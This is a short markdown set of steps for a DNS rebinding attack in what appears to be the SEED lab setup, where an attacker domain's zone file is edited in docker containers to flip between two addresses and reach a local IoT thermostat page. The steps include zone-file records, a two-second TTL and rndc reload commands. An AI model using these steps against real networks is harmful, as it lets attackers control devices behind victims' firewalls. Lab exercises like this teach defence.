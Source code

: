 # DNS Rebinding Steps

## Reduce DNS Cache (Firefox)
- Open Firefox > `about:config` > network.dnsCacheExpiration = 10

## Config DNS (Local DNS)
- Access http://www.seediot32.com/ (Termómetro)
- `sudo nano /etc/resolvconf/resolv.conf.d/head`
- `sudo resolvconf -u `
- Access http://www.attacker32.com/ (Countdown)
- Close countdown

## Attacker DNS 
- `docker exec -it attacker-ns-10.9.0.153 bash`
- `nano /etc/bind/zone_attacker32.com`

```
# cat etc/bind/zone_attacker32.com
$TTL 2
@       IN      SOA   ns.attacker32.com. admin.attacker32.com. (
                2008111001
                8H
                2H
                4W
                1D)

@       IN      NS    ns.attacker32.com.

@       IN      A     10.9.0.180
;www     IN      A     10.9.0.180
www     IN      A     192.168.60.80
ns      IN      A     10.9.0.153
*       IN      A     10.9.0.100
```

- `rndc reload attacker32.com`

## Local DNS
`docker exec -it local-dns-server-10.9.0.53 /bin/sh -c 'rndc flush'`

## Test

- Access http://www.attacker32.com/change 

## Attack

- `docker exec -it attacker-ns-10.9.0.153 bash`
- `nano /etc/bind/zone_attacker32.com`

```
...
www     IN      A     10.9.0.180
;www      IN      A     192.168.60.80
...
```

- `rndc reload attacker32.com`

- Fix temperature http://www.seediot32.com/
- Reload http://www.attacker32.com/
- Show web console


- `nano /etc/bind/zone_attacker32.com`

```
...
;www     IN      A     10.9.0.180
www      IN      A     192.168.60.80
...
```

- `rndc reload attacker32.com`

- Show web console
- Check http://www.seediot32.com/